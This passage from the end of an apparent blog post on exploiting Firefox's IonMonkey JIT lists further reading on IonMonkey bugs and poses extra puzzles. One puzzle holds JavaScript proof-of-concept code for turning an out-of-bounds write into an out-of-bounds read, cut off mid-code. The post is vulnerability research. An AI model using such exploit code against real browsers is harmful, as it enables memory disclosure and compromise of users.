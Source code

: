 If this was interesting for you, you might want to have a look at those other good resources concerning IonMonkey:

- [@5aelo](https://twitter.com/5aelo) writes very detailed root-cause analysis of the bugs he has found which is a great resource:
    - [IonMonkey compiled code fails to update inferred property types, leading to type confusions](https://bugs.chromium.org/p/project-zero/issues/detail?id=1810),
    - [IonMonkey: unexpected ObjectGroup in ObjectGroupDispatch operation might lead to potentially unsafe code being executed](https://bugs.chromium.org/p/project-zero/issues/detail?id=1808),
    - [IonMonkey leaks JS_OPTIMIZED_OUT magic value to script](https://bugs.chromium.org/p/project-zero/issues/detail?id=1794),
    - [IonMonkey's type inference is incorrect for constructors entered via OSR](https://bugs.chromium.org/p/project-zero/issues/detail?id=1791),
- [wiki mozilla/IonMonkey](https://wiki.mozilla.org/IonMonkey),
- [SSD Advisory – Firefox Information Leak](https://ssd-disclosure.com/archives/3766) by [@_niklasb](https://twitter.com/_niklasb) and by [@bkth_](https://twitter.com/bkth_).

As usual, big up to my mates [@yrp604](https://twitter.com/yrp604) and [@__x86](https://twitter.com/__x86) for proofreading this article.

And if you want a bit more, what follows is a bunch of extra questions you might have asked yourself while reading that I answer (but that did not really fit the overall narrative) as well as a few puzzles if you want to explore Ion even more!

## Little puzzles & extra quests

As said above, here are a bunch of extra questions / puzzles that did not really fit in the narrative. This does not mean they are not interesting so I just decided to stuff them here :).

### Why does `AccessArray(10)` triggers a bailout?

```javascript
let Arr = null;
function AccessArray(Idx) {
    Arr[Idx] = 0xaaaaaaaa;
}

Arr = new Array(0x100);
for(let Idx = 0; Idx < 0x400; Idx++) {
    AccessArray(1);
}

AccessArray(10);
```

### Can the write out-of-bounds be transformed into an information disclosure?

It can! We can abuse the `loadelement` MIR instruction the same way we abused `storeelement` in which case we can read out-of-bounds memory.

```javascript
let Trigger = false;
let Arr = null;

function Target(Special, Idx) {
    Arr[Idx];
    Special.slice();
    return Arr[Idx];
}

class SoSpecial extends Array {
    static get [Symbol.species]() {
        return function() {
            if(!Trigger) {
                return;
```